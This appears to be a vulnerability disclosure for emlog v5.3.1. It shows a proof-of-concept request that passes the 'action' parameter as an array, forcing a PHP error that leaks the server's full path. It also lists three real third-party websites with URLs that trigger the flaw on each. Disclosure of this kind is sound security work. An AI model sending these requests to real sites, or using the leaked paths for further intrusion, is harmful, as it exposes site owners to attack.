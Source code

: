 emlog v5.3.1 has Full Path Disclosure vulnerability


emlog is a fast, stable and easy-to-use blog and CMS website building system based on PHP and MySQL.


site: https://www.emlog.net/em_download/emlog/emlog_5.3.1.zip
github: https://github.com/emlog/


vulnerability in t/index.php line 11:

`$action = isset($_GET['action']) ? addslashes($_GET['action']) : '';`

that uses a method of requesting a page like this:

`https://localhost/t/index.php?action=n`

We can use a method of opening and closing braces that causes the page to output an error. This method would look like this:


`https://localhost/t/index.php?action[]=aaaa`

This renders the page defunct thus spitting out an error:

`addslashes() expects parameter 1 to be string, array given in <b>/www/wwwroot/web/t/index.php</b> on line <b>11`


POC:

`http://127.0.0.1/t/index.php?action[]=aaaa`


Full Path Disclosure vulnerabilities enable the attacker to see the path to the webroot/file. Certain vulnerabilities, such as using the load_file() (within a SQL Injection) query to view the page source, require the attacker to have the full path to the file they wish to view.


Examples:

```
view-source:https://www.jiquan123.cn/t/index.php?action[]=aaaa
view-source:https://www.zlrsl.cn/t/index.php?action[]=aaaa
view-source:https://dxs32.cn/t/index.php?action[]=aaaa
```
